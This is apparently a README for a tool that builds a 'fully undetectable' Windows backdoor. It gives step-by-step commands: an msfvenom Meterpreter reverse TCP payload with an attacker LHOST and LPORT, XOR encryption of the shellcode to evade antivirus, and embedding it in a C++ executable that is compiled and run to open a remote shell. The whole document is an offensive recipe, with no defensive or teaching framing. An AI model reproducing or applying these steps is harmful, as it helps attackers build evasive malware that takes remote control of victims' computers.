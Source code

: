 # 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

## Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
```

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```
char b[] = { /*xor_shellcode*/};
```

## Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
https://cutt.ly/BBOXP797

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell
